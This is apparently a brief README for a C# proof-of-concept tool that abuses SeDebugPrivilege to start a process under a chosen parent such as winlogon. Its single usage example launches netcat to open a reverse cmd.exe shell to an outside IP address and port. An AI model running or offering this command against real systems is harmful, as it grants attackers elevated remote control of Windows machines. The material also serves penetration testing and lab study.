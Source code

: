 # foxhole
This C# code creates child process of parent process that you determine (SeDebugPrivelege PoC)

Usage example:
.\sepoc.exe -p winlogon -c "c:\temp\nc.exe 10.10.14.174 9998 -e cmd.exe"
